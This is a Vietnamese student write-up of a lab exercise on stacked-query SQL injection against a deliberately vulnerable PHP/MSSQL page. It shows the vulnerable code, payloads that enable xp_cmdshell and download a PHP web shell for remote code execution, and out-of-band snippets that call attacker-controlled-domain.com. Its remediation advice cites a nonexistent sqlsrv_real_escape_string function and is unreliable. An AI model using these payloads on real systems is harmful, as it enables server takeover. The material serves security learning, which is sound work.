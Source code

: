 

## Về dạng này em dùng source của bài StackQuery ạ nhưng mà với một hướng đi khác là em sẽ wget 1 shell về để RCE ạ
## Còn một hướng khác nữa là em sẽ dùng LOAD_FILE để lấy file php độc hại về sever hoặc là em sẽ dùng cách truyền đầu ra đến máy của kẻ nghe lén ạ

# Link demo : https://github.com/l3mnt2010/task2_KCSC/tree/main/demo/stackQuery
# Cách khắc phục :

- Hoặc làm sạch đầu vào   $cleaned_username = sqlsrv_real_escape_string($conn, $name);
$cleaned_password = mysqli_real_escape_string($conn, $password);
- Và tìm hiểu các CVE của các phiên bản để tránh được lỗi này có thể xảy ra.


+ Bắt đầu vào với một giao diện như trên
![Alt text](./imageStackQuery/image.png)

- Đây là đoạn code bị dính lỗi

<?php
require_once "../config/connectMssql.php";

if (isset($_GET['name'])) {
    global $conn;
    $name = $_GET['name'];
    $tsql = "SELECT * FROM $name";

    $stmt = sqlsrv_query($conn, $tsql);
    if( $stmt === false )
    {
        echo "Lỗi truy vấn.</br>";
        die( print_r( sqlsrv_errors(), true));
    }

    if ($stmt) {
           while( $row = sqlsrv_fetch_array($stmt, SQLSRV_FETCH_ASSOC) ){
            echo '
                <div class="mt-56 bg-white rounded shadow dark:bg-gray-700">
                    <div class="relative z-20 p-6 group">
                        <div class="relative block h-64 mb-4 -mt-56 overflow-hidden rounded -top-full ">
                            <img class="object-cover w-full h-full transition-all group-hover:scale-110"
                                
                                 
                        src="https://pplay.vn/media/catalog/product/cache/1/image/485x440/9df78eab33525d08d6e5fb8d27136e95/7/0/70222-1.jpg" alt="">
                            <div class="absolute flex flex-col top-4 right-4">
                                <!-- Wishlist and Cart buttons here -->
                            </div>
                        </div>
                        <a href="#">
                            <h2 class="mb-2 text-xl font-bold text-black dark:text-white">
                                ' . $row['name'] . '
                            </h2>
                        </a>
                        <p class="mb-3 text-lg font-bold text-blue-500 dark:text-blue-300 ">
                            <span>$' . $row['sale'] . '.00</span>
                            <span class="text-xs font-semibold text-gray-400 line-through ">$' . $row['price'] . '.00</span>
                        </p>
                        <div class="flex gap-1 text-orange-400">
               <svg xmlns="http://www.w3.org/2000/svg" width="16" height="16" fill="currentColor"
                   class="bi bi-star-fill" viewBox="0 0 16 16">
                   <path
                       d="M3.612 15.443c-.386.198-.824-.149-.746-.592l.83-4.73L.173 6.765c-.329-.314-.158-.888.283-.95l4.898-.696L7.538.792c.197-.39.73-.39.927 0l2.184 4.327 4.898.696c.441.062.612.636.282.95l-3.522 3.356.83 4.73c.078.443-.36.79-.746.592L8 13.187l-4.389 2.256z" />
               </svg>
               <svg xmlns="http://www.w3.org/2000/svg" width="16" height="16" fill="currentColor"
                   class="bi bi-star-fill" viewBox="0 0 16 16">
                   <path
                       d="M3.612 15.443c-.386.198-.824-.149-.746-.592l.83-4.73L.173 6.765c-.329-.314-.158-.888.283-.95l4.898-.696L7.538.792c.197-.39.73-.39.927 0l2.184 4.327 4.898.696c.441.062.612.636.282.95l-3.522 3.356.83 4.73c.078.443-.36.79-.746.592L8 13.187l-4.389 2.256z" />
               </svg>
               <svg xmlns="http://www.w3.org/2000/svg" width="16" height="16" fill="currentColor"
                   class="bi bi-star-fill" viewBox="0 0 16 16">
                   <path
                       d="M3.612 15.443c-.386.198-.824-.149-.746-.592l.83-4.73L.173 6.765c-.329-.314-.158-.888.283-.95l4.898-.696L7.538.792c.197-.39.73-.39.927 0l2.184 4.327 4.898.696c.441.062.612.636.282.95l-3.522 3.356.83 4.73c.078.443-.36.79-.746.592L8 13.187l-4.389 2.256z" />
               </svg>
               <svg xmlns="http://www.w3.org/2000/svg" width="16" height="16" fill="currentColor"
                   class="bi bi-star-fill" viewBox="0 0 16 16">
                   <path
                       d="M3.612 15.443c-.386.198-.824-.149-.746-.592l.83-4.73L.173 6.765c-.329-.314-.158-.888.283-.95l4.898-.696L7.538.792c.197-.39.73-.39.927 0l2.184 4.327 4.898.696c.441.062.612.636.282.95l-3.522 3.356.83 4.73c.078.443-.36.79-.746.592L8 13.187l-4.389 2.256z" />
               </svg>
               <svg xmlns="http://www.w3.org/2000/svg" width="16" height="16" fill="currentColor"
                   class="bi bi-star" viewBox="0 0 16 16">
                   <path
                       d="M2.866 14.85c-.078.444.36.791.746.593l4.39-2.256 4.389 2.256c.386.198.824-.149.746-.592l-.83-4.73 3.522-3.356c.33-.314.16-.888-.282-.95l-4.898-.696L8.465.792a.513.513 0 0 0-.927 0L5.354 5.12l-4.898.696c-.441.062-.612.636-.283.95l3.523 3.356-.83 4.73zm4.905-2.767-3.686 1.894.694-3.957a.565.565 0 0 0-.163-.505L1.71 6.745l4.052-.576a.525.525 0 0 0 .393-.288L8 2.223l1.847 3.658a.525.525 0 0 0 .393.288l4.052.575-2.906 2.77a.565.565 0 0 0-.163.506l.694 3.957-3.686-1.894a.503.503 0 0 0-.461 0z" />
               </svg>
           </div>
                    </div>
                    
                </div>
            ';
        }
    } else {
        echo '<p class="font-bold text-center mt-48 text-xl">Invalid name or your hack me!!!</p>';
    }
    sqlsrv_free_stmt( $stmt);
    sqlsrv_close( $conn);
}
?>



<?php


//     $tsql = "SELECT sale FROM items; WAITFOR DELAY '0:0:10'";
    
//     $stmt = sqlsrv_query($conn, $tsql);
//     if( $stmt === false )
//     {
//         echo "Lỗi truy vấn.</br>";
//         die( print_r( sqlsrv_errors(), true));
//     }

//     $rows = [];
//     while( $row = sqlsrv_fetch_array($stmt, SQLSRV_FETCH_ASSOC) )
//     {
//         $rows[] = $row;
//     }
//     print_r($rows);

//     sqlsrv_free_stmt( $stmt);
//     sqlsrv_close( $conn);
?>

- Có vẻ như là trang web này lấy giá trị param name và cho vào trong câu truy vấn
                                        $tsql = "SELECT * FROM $name";
- Bởi vì được truyền trực tiếp nên em có thể đoán là bị dính lỗi sql injection
- Em sẽ khai thác theo hướng thực thi shell trong MSSQL đây là một dạng stack query
- Vào trong burpsuite và chọn request bị dính lỗi như sau:
![Alt text](./imageStackQuery/image-1.png)

- Em thử thêm dấu ';' vào đằng sau và request vẫn thực hiện bình thường
![Alt text](./imageStackQuery/image-2.png)
- Sau đó em dùng payload "; WAITFOR DELAY '0:0:5'; -- "
- Em nhận lại được response sau 5s
![Alt text](./imageStackQuery/image-3.png)
- Điều này chứng tỏ là em có thể thực hiện chồng query ở trong trường hợp này
- Em muốn thực hiện được xp_cmdshell trong truy vấn để lấy dữ liệu
+ Ban đầu em sẽ phải cài đặt lại setting để có thể thực hiện shell

em tham khảo bài viết này:  https://medium.com/@notsoshant/a-not-so-blind-rce-with-sql-injection-13838026331e
Và dùng payload :  ";EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE; WAITFOR DELAY '0:0:5'; --"

- Và em nhận được kết quả sau 5s  chứng tỏ là đã reconfig thành công
![Alt text](./imageStackQuery/image-4.png)

## Đến đoạn này em thử
wget https://github.com/flozz/p0wny-shell/blob/master/shell.php
Đây là shell em hay dùng:v

-  http://localhost/task2_KCSC/demo/stackQuery/index.php?name=items;EXEC%20xp_cmdshell%20%27wget+https://github.com/flozz/p0wny-shell/blob/master/shell.php%27;%20WAITFOR%20DELAY%20%270:0:5%27;%20--%20%22

![Alt text](./imagesOOB/image.png)

-- Sau đó em tải được file shell.php và bật nó lên để RCE ạ:<



### Một số hướng khai thác khác

<?php

$servername = "your_server";
$username = "your_username";
$password = "your_password";
$dbname = "your_database";

$conn = new mysqli($servername, $username, $password, $dbname);


if ($conn->connect_error) {
    die("Kết nối thất bại: " . $conn->connect_error);
}


$user_input = $_GET['query'];


$sql = "SELECT * FROM your_table WHERE column_name = '$user_input'";


$payload = "'; SELECT LOAD_FILE('http://attacker-controlled-domain.com/evil.txt')--";
$sql_out_of_band = "SELECT * FROM your_table WHERE column_name = '$user_input$payload'";

$result = $conn->query($sql_out_of_band);


if ($result->num_rows > 0) {
    
    while ($row = $result->fetch_assoc()) {
     
    }
} else {
  
}


$conn->close();
?>

<?php

$servername = "your_server";
$username = "your_username";
$password = "your_password";
$dbname = "your_database";

$conn = new mysqli($servername, $username, $password, $dbname);


if ($conn->connect_error) {
    die("Kết nối thất bại: " . $conn->connect_error);
}


$user_input = $_GET['query'];


$sql = "SELECT * FROM your_table WHERE column_name = '$user_input'";


$payload = "'; EXEC xp_cmdshell('nslookup attacker-controlled-domain.com')--";
$sql_out_of_band = "SELECT * FROM your_table WHERE column_name = '$user_input$payload'";

$result = $conn->query($sql_out_of_band);


if ($result->num_rows > 0) {
    
    while ($row = $result->fetch_assoc()) {
       
    }
} else {
    
}

// Đóng kết nối
$conn->close();
?>
